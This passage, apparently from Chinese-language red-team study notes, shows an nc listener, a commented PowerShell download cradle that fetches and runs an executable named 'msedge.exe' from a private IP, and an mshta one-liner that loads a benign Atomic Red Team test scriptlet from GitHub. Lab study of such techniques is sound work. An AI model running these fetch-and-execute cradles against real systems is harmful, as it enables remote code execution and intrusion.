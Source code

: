 ```zsh
nc -lvvp 65521 | while read line; do echo "$(date '+%Y-%m-%d %H:%M:%S') $line";done
```

![image-20240708175434662](http://cdn.ayusummer233.top/DailyNotes/202407081754928.png)

---

`下载与执行文件`

```powershell
# 新建一个 COM 对象, 它是 Msxml2.ServerXmlHttp 类的一个实例, 用于发送 HTTP 请求和接受响应
$comMsXml = New-Object -ComObject MsXml2.ServerXmlHttp; 
# 使用 COM 对象的 Open 方法打开一个 HTTP GET 请求; $False 表示同步请求(非异步)
$comMsXml.Open('GET', 'http://100.1.1.131:8000/download/msedge.exe', $False); 
# 使用 COM 对象的 Send 方法发送 HTTP 请求并等待响应, 响应会被保存在 COM 对象的 ResponseText 属性中
$comMsXml.Send(); 
# 获取文件的字节数组
$fileBytes = $comMsXml.ResponseBody;
# 定义文件保存路径
$filePath = "C:\temp\msedge.exe";
# 将字节数组写入到文件
[System.IO.File]::WriteAllBytes($filePath, $fileBytes);
# 执行下载的文件
Start-Process -FilePath $filePath
```

![image-20240708175813560](http://cdn.ayusummer233.top/DailyNotes/202407081758793.png)

---

#### mshta

`mshta.exe` 是 Windows 操作系统中的一个可执行文件，用于运行 HTML 应用程序（HTML Applications，简称 HTA）。

HTA 文件是包含 HTML 和脚本代码（如 VBScript 或 JavaScript）的应用程序，可以在 Windows 环境中运行，类似于本地应用程序。

```cmd
C:\Windows\system32\cmd.exe /c "mshta.exe javascript:a=GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct').Exec();close()"
```

- `mshta` 是一个执行 HTML 应用程序(HTA) 的工具。  
  HTA 是由 HTML 和脚本(如 JavaScript 或 VBScript) 组成的应用程序，它们在 Windows 上以类似于标准网页的方式运行
- `javascript:a=GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct').Exec();close()`
  - `javascript:`: 指示 `mshta` 执行 JavaScript 代码
  - `a=GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/mshta.sct').Exec();`: 获取 `mshta.sct` 中的命令并执行
  - `close()`: 关闭 `mshta` 窗口

`mshta.sct`

```xml
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Tester"
    progid="Tester"
    version="1.00"
    classid="{AAAA0000-0000-0000-0000-0000AAAAAAAA}"
	>
	<script language="JScript">
		<![CDATA[

			var r = new ActiveXObject("WScript.Shell").Run("powershell -c \"write-host -ForegroundColor Cyan $(Get-Date -Format s) 'Download Cradle test success!';Read-Host -Prompt 'Press Enter to continue'\"");
```